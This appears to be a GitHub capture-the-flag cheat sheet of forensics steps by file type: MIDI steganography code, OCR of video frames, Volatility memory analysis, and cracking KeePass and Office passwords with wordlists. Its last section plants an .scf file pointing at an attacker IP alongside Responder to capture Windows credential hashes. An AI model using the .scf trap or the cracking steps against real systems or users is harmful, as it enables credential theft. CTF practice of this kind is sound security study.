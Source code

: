 # Files_unknown
Guides for different file types

try this first:

strings <filename> | grep "password="

strings <filename> | grep PWD




1) .ab = android backup
   1.dd if=<filename>.ab bs=24 skip=1 | zlib-flate -uncompress > <filename>.tar
   
   2. tar -xvf <filename>.tar
  
   4. Then you will get an /app and an /shared folder.
      
   6. there you fill find what you searching for
      
   8. TIP: to find in all the folders if there is something--> ls -a *
---------------------------------------------------------------------------------------------------------------------------
2) .sal = Signal Acquisition Log file???
   
   1) unzip <filename>.sal   ---> (gives two files: x.bin  with binary ifno and y.json with metadata)
      
   3) strings x.bin 
      a) you might find the <SALEAE> tag at the begin. then yu go to there website and download there debug tool. With          that you analyze the binaries and take the message 
---------------------------------------------------------------------------------------------------------------------------
3) .bin =binary
   
   1) strings <filename>.bin
----------------------------------------------------------------------------------------------------------------------------

4) .eml
   
   1) strings
----------------------------------------------------------------------------------------------------------------------  
5) .mid
   
   1) First, we'll check the file with hidden messages in 'Program Change': https://github.com/maxcruz/stegano_midi
      if gives base64, then decrypt it
      
   3) try it in the audacity app
      
   if those are normal try this script  for DAW:
   
import mido

from collections import Counter


midi_filename = "final_version_v199237.mid"

mid = mido.MidiFile(midi_filename)

notes = []

for track in mid.tracks:

    for msg in track:
        if msg.type == 'note_on' and msg.velocity > 0:
            notes.append((msg.note, msg.velocity))

velocity_counts = Counter(velocity for _, velocity in notes)


if velocity_counts:

    most_common_velocity, count = velocity_counts.most_common(1)[0]
    print(f"Most common velocity: {most_common_velocity} ({count} times)")

filtered_velocity = [];

for note, velocity in notes:

    if velocity != most_common_velocity:
        filtered_velocity.append(velocity)
print("Filtered velocities:")

print(filtered_velocity)


and then :

flag = ''.join(chr(code) for code in filtered_velocity)

print("Flag:")

print(flag)
------------------------------------------------------------------------------------------------------------------------------
6) mp4 files/videos

Tools like https://y2down.cc/ can help downloading the MP4 file containing the video.
then use ffmpeg

$fmpeg -i teaser.mp4 -vf "fps=1" frames/out%04d.png

Well, the number of frames is huge. Over 1600 pictures. Too much to look at, but we can use another tool - OCR named tesseract

$ for file in frames/*.png; do tesseract "$file" stdout >> results.txt; done

It takes a moment, but after a while we got results.txt file we can check. It contains a bunch of crap, but using grep we can get our flag:

$ cat results.txt | grep 1753c{
------------------------------------------------------------------------------------------------------------------------------

7) .kdbx
   
   you need keepass to find the code.
   
   sudo apt install keepassxc
   
   git clone keepass4brute.sh
   
   and run it with rockyou.txt

---------------------------------------------------------------------------------------------------------------------------
8) .doc

You need oletools:

pip install -U oletools --break-system-packages

then: 

a. oleid filename.doc

b. 
---------------------------------------------------------------------------------------------------------------------------
9) .elf
    
   1.   vol -f name.elf windows.pslist            (gives running processes on the machine, search for weird names.exe and keep there PID)
  
   2.   vol -f name.elf windows.netscan            (gives connections at the time of dump taken, try to find the samw weird .exes running)
  
   3.   vol -f name.elf windows.cmdline            (get commands that were used to run those processes)

  or

   4.   vol -f name.elf windows.cmdline --pid 1234
    
----------------------------------------------------------------------------------------------------------------------------
10) .xlsx

    office2john file.xlsx >> hash.txt

    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

    then create env to use msoffcrypto:
    1. python3 -m venv venv
    2. source venv/bin/activate
    3. pip install msoffcrypto-tool
    4. python3 -m msoffcrypto -p password file.xlsx newname.xlsx
    5. open newname.xlsx
-------------------------------------------------------------------------------------------------------------------------------
11) .scf

Well when someone browses to a directory and a .scf is in it, it automatically reads it. It has been originally designed for Windows 95/98 for shortcut purposes.

sudo responder -w -I tun0

and create a file x.scf:

[Shell]
Command=2
IconFile=\\10.10.XX.XX\tools\nc.ico
[Taskbar]
Command=ToggleDesktop




